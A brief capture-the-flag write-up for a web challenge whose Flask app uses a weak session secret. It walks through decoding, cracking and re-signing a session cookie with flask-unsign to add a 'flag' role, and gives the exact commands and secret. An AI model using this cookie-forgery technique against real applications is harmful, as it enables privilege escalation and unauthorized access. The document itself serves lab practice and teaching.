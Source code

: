 ## Category
Web

## Description
This challenge is based on the session token weak secret key
## Solution

1. Register and login into the application
2. Observe the response while logging to the application
3. In the response, we have authorization token
4. Click on the "Fix me" button on the home page
5. Observe the request to "/flag" and the session cookie
6. Modify the cookie to include {'role':'flag'} by using tools like flask-unsign or cookie-monster
7. Send a POST request to /flag with the authorization header(Step 3) and the modified session cookie to get the flag

```
https://github.com/Paradoxis/Flask-Unsign
flask-unsign --decode --cookie "eyJ1c2VyIjoicDNuN2E5MG4ifQ.YwDyzw.yQvQYU2EPcr1w6jz0JL8UruhFg"

flask-unsign --unsign --cookie "eyJ1c2VyIjoicDNuN2E5MG4ifQ.YwDyzw.yQvQYU2EPcr1w6jz0JL8UruhFg0"

flask-unsign --sign --cookie "{'user': 'p3n7a90n','role':'flag'}" --secret "temporary_key"

```
